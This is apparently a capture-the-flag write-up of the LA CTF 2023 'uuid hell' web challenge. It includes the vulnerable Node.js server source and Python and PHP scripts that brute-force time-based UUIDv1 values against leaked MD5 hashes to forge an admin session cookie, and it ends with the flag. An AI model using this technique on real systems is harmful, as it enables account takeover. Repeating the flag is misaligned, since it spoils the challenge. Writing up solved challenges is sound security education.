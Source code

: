 ```yaml
---
Title: uuid hell - LA CTF 2023
Date: 2023-02-15T00:00:00+05:30
Tags: [web, lactf23-writeups, ctf, writeup, hash-collision, uuid]
Categories: [lactf23-writeups,All Writeups]
Authors: [Rohit]
---
```


#### tl;dr

 - It uses uuidv1 which is time-based
 - We get the user uid from the cookie
 - Then create an admin and get all the current admin hashes as an array from the web page
 - Create another user
 - Brutefoce the first eight bytes of the uuid in the range and check with each hash in the array
 - Use the one that matches

<!--more-->

## Description

UUIDs are the best! I love them (if you couldn't tell)!

- **Author** : burturt
- **Category** : Web
- **Points** : 391
- **Solves** : 165


## Solution

### Understanding the challenge

So the challenge gives us a web page where we can create users and admins. We can also see the list of admin's and user's id hashes (most recent 50 hashes). We can get the regular user's cookie but we can't get the admin cookie we can only create admin users. We can also see the source code for the web page.

```js
const uuid = require('uuid');
const crypto = require('crypto')

function randomUUID() {
    return uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
}
let adminuuids = []
let useruuids = []
function isAdmin(uuid) {
    return adminuuids.includes(uuid);
}
function isUuid(uuid) {
    if (uuid.length != 36) {
        return false;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            return false;
        }
    }
    return true;
}

function getUsers() {
    let output = "<strong>Admin users:</strong>\n";
    adminuuids.forEach((adminuuid) => {
        const hash = crypto.createHash('md5').update("admin" + adminuuid).digest("hex");
        output += `<tr><td>${hash}</td></tr>\n`;
    });
    output += "<br><br><strong>Regular users:</strong>\n";
    useruuids.forEach((useruuid) => {
        const hash = crypto.createHash('md5').update(useruuid).digest("hex");
        output += `<tr><td>${hash}</td></tr>\n`;
    });
    return output;

}

const express = require('express');
const cookieParser = require("cookie-parser");

const app = express();
app.use(cookieParser());



app.get('/', (req, res) => {
    let id = req.cookies['id'];
    if (id === undefined || !isUuid(id)) {
        id = randomUUID();
        res.cookie("id", id);
        useruuids.push(id);
    } else if (isAdmin(id)) {
        res.send(process.env.FLAG);
        return;
    }

    res.send("You are logged in as " + id + "<br><br>" + getUsers());
});

app.post('/createadmin', (req, res) => {
    const adminid = randomUUID();
    adminuuids.push(adminid);
    res.send("Admin account created.")
});

app.listen(process.env.PORT);
```

Here we can see that the website uses [uuidv1](https://www.sohamkamani.com/uuid-versions-explained/#v1--uniqueness). UUID V1 is weak as it is based on time and some parts are constant. Only the first 8 bytes are changing.

![constant](images/constant.png)

So we easily brute-force it and get the admin cookie. That's what we thought

### Bruteforcing

So we started making a python script for that. [code](files/exp.py)


```py
import requests
import time
import hashlib
import os
url="https://uuid-hell.lac.tf/"

uuid = requests.get(url).cookies.get_dict()['id']
print(requests.post(url+"createadmin").text)
uuid2 = requests.get(url).cookies.get_dict()['id']

time.sleep(10)
r = requests.get(url).text
admin_hashs = r.split("\n")[1:51]
admin_hashs = list(map(lambda x: x[8:-10],admin_hashs))

print("Length:",len(admin_hashs))
print("Regular UUID:",uuid)
print("Regular UUID2:",uuid2)
os.system("php exp.php "+uuid+" "+','.join(admin_hashs)+" "+uuid2)
```

And for brute-forcing, we used PHP as it will be faster. [code](files/exp.php)

```php
<?php

$uuid = $argv[1];
$admin_hash = $argv[2];
$uuid2 = $argv[3];

$admin_hashs = explode(",", $admin_hash);

$start = hexdec(substr($uuid, 0, 8));
$end = hexdec(substr($uuid2, 0, 8));
$uuid = substr($uuid, 9);
echo "Starting Brute Force... " . $start . " " . $uuid . "\n";
echo "Admin Hash: " . $admin_hash . "\n";

for ($i = $start; $i < $end; $i++) {
    $hash = md5("admin" . dechex($i) . "-" . $uuid);
    echo "Trying: " . dechex($i) . "-" . $uuid . " " . $hash . "\r";
    if (in_array($hash, $admin_hashs)) {
        echo "\nAdmin UUID: " . dechex($i) . "-" . $uuid . "\n";
        break;
    }
}
?>
```

So here we are creating a user first, then we go on and create an admin. After that, we create another user. We then brute force the first 8 bytes of the uuid in the range of the two users. We then check if the hash of the admin uuid matches with any of the admin hashes. If it does we get the admin cookie.


![bruteforce](images/bruteforce.gif)

Setting this as a cookie and visiting the page will give us the flag.


**Flag**: `lactf{uu1d_v3rs10n_1ch1_1s_n07_r4dn0m}`